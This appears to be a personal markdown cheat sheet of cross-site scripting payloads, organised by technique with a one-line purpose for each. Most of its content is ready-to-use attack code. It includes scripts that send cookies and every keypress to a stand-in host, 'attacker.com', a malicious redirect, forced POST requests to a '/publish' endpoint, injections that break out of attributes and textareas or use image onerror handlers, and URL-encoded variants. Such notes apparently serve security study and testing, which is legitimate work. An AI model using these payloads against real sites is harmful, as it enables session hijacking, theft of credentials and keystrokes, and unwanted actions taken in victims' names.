 # XSS (Cross-Site Scripting) Notes

## **1. Basic XSS Payloads**

### **Simple Alert Payload**
```html
<script>alert('XSS');</script>
```
- **Purpose:** Displays an alert box to confirm XSS.

### **Advanced Examples**
1. **Stealing Cookies:**
   ```html
   <script>fetch('http://attacker.com/log', {method: 'POST', body: document.cookie});</script>
   ```
   - Sends cookies to a remote server.

2. **Redirecting the User:**
   ```html
   <script>window.location='http://attacker.com';</script>
   ```
   - Redirects the user to a malicious website.

3. **Keylogger:**
   ```html
   <script>
   document.addEventListener('keypress', e => {
       fetch('http://attacker.com/log', {method: 'POST', body: e.key});
   });
   </script>
   ```
   - Logs every keypress made by the user and sends it to the attacker.

4. **Dynamic DOM Injection:**
   ```html
   <script>document.body.innerHTML += '<input type="text" name="injected">';</script>
   ```
   - Dynamically injects an input box into the page.

---

## **2. Fetch-Based XSS Payloads**

### **Basic Fetch Payload**
```html
<script>
fetch('/publish');
</script>
```
- **Purpose:** Sends a `GET` request to `/publish`.

### **Sending POST Requests**
```html
<script>
fetch('/publish', {
    method: 'POST'
});
</script>
```
- **Purpose:** Sends a `POST` request to `/publish` without any data.

### **Advanced POST with Body**
```html
<script>
fetch('/publish', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ action: 'publish' })
});
</script>
```
- **Purpose:** Sends a `POST` request with JSON data to `/publish`.

### **Exfiltrating Cookies**
```html
<script>
fetch('http://attacker.com/log', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'cookies=' + encodeURIComponent(document.cookie)
});
</script>
```
- **Purpose:** Extracts cookies and sends them to a remote server.

---

## **3. Context-Specific Payloads**

### **Breaking Out of HTML Attributes**
```html
"><script>alert('XSS')</script>
```
- **Purpose:** Ends the current attribute and injects a `<script>` tag.

### **Breaking Out of Textareas**
```html
</textarea><script>fetch('/publish');</script>
```
- **Purpose:** Closes a `<textarea>` tag and executes JavaScript.

### **Image Tag Injection**
```html
<img src="x" onerror="fetch('/publish');">
```
- **Purpose:** Uses an image tag's `onerror` event to execute JavaScript.

---

## **4. URL Encoding for XSS**
### **Encoded Payloads**
#### **URL-Encoded XSS Payloads**
1. Basic Alert:
   ```html
   %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
   ```
2. Fetch with Encoded Characters:
   ```html
   %3Cscript%3Efetch%28%27%2Fpublish%27%29%3B%3C%2Fscript%3E
   ```

#### **Commonly Encoded Characters**
| Character | URL-Encoded | Hex Value |
|-----------|-------------|-----------|
| `<`       | `%3C`       | `3C`      |
| `>`       | `%3E`       | `3E`      |
| `"`       | `%22`       | `22`      |
| `'`       | `%27`       | `27`      |
| `}`       | `%7D`       | `7D`      |
| `|`       | `%7C`       | `7C`      |
| `=`       | `%3D`       | `3D`      |

---

## **5. Notes on Contexts**

- **Inside `<textarea>`:** Use `</textarea>` to escape the tag and inject JavaScript.
- **Inside HTML Attributes:** Use `">` or `'>'` to break out of the attribute.
- **Inside JavaScript:** Use `\` to escape quotes if needed.